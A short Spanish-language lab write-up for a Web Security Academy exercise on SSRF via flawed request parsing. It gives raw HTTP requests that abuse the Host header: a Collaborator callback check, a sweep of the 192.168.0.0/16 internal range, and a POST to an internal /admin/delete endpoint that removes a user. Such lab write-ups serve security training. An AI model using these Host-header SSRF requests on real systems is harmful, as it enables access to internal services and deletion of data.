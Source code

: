 ```yaml
---
layout: default
title: 5 - SSRF via flawed request parsing
---
```


Recibimos la request en el collaborator:
```HTTP
GET https://0a61007d0390a47880d9d5ac00590055.web-security-academy.net/login HTTP/2
Host: 3dhc83ec9otzqu1l1546kw9e45a2yvvjk.oastify.com
```

Fuzzeamos de 192.168.0.0 a 192.168.255.255 y encontramos que en 192.168.0.30 en vez de tirarnos 504 nos tira 404.

```HTTP
POST https://0a61007d0390a47880d9d5ac00590055.web-security-academy.net/admin/delete HTTP/2
Host: 192.168.0.30

csrf=1234&username=carlos
```
